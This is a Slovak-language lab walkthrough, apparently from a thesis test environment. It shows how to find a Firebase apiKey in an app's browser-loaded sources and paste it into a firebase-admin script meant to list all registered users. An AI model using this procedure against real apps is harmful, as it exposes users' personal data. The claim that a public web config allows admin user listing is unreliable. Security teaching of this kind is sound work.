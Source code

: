 # Sensitive data exposure 

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Cieľom útoku je odhlaiť citlivé údaje napisané v kóde. Zasústredíme sa na API kľúče, pomocou ktorých sprístupnujeme služby používané aplikáciou.
- Klávesou F12 si vieme otvoriť vývojársku konzolu. Preklikneme sa na položku "Sources", kde vidíme všetky zdrojové kódy, ktoré boli pri načítané.
- Postupne môžeme prechádzať súbor po súbore a hľadať citlivé údaje. Jedným z nich môže byť napríklad API key, ktorý je v podstate prístupový kľúč ku danej službe. Nás v tomto prípade
  bude zaujímať prístupový kľúč ku Firebase API, vďaka ktorému budeme môcť získať údaje uložené vo Firebase účte vývojára aplikácie alebo vlastníka aplikácie.
- Kliknime na ľubovoľný súbor a kombináciou kláves Ctrl + F vyhľadáme kľúčové slovo v súbore. Skúsime vyhľadať "apiKey" a postupne prechádzať jednotlivé súbory kým nenájdeme zhodu.
- Konfiguračný objekt môže vyzerať nasaledovne:

      const firebaseConfig = {
              apiKey: "AIzaayCx_tvo5GYYtbjFgSsbGtQv7TWb6mreZWg",
              authDomain: "test-app.firebaseapp.com",
              projectId: "test-app",
              storageBucket: "test-app.appspot.com",
              messagingSenderId: "548553603022",
              appId: "1:548553604021:web:6628aba44c524cbf19cf69",
            };
- 
- Zhoda bola nájdená v súbore auth.js a nachádza sa tu celá konfigurácia pre použitie služby.
- Teraz si môžeme vytvoriť vlastný kód a zavolať ľubovoľné metódy z API a sprístupniť dáta o zaregistrovaných používateľoch.
  ```
  const admin = require("firebase-admin");
    
  const firebaseConfig = {
            apiKey: "AIzaayCx_tvo5GYYtbjFgSsbGtQv7TWb6mreZWg",
            authDomain: "test-app.firebaseapp.com",
            projectId: "test-app",
            storageBucket: "test-app.appspot.com",
            messagingSenderId: "548553603022",
            appId: "1:548553604021:web:6628aba44c524cbf19cf69",
          };
    
  admin.initializeApp(firebaseConfig); 
  const auth = admin.auth();
  
  async function getAllUsers() {
    try {
      const userList = await auth.listUsers();
      userList.users.forEach(userRecord => {
        console.log("User: ", userRecord);
      });
    } catch (error) {
      console.error("Error fetching users:", error);
    }
  }

  getAllUsers();
    ```

- Teraz môžeme spustiť kód v online javascript prostredí https://www.programiz.com/javascript/online-compiler/. nahraden9m firebaseConfig objektu a spustením získame údaje o všetkých používateľoch zaregistrovaných v aplikácii.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/sensitive-data-exposure-apikey.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/sensitive-data-exposure-apikey.mp4)
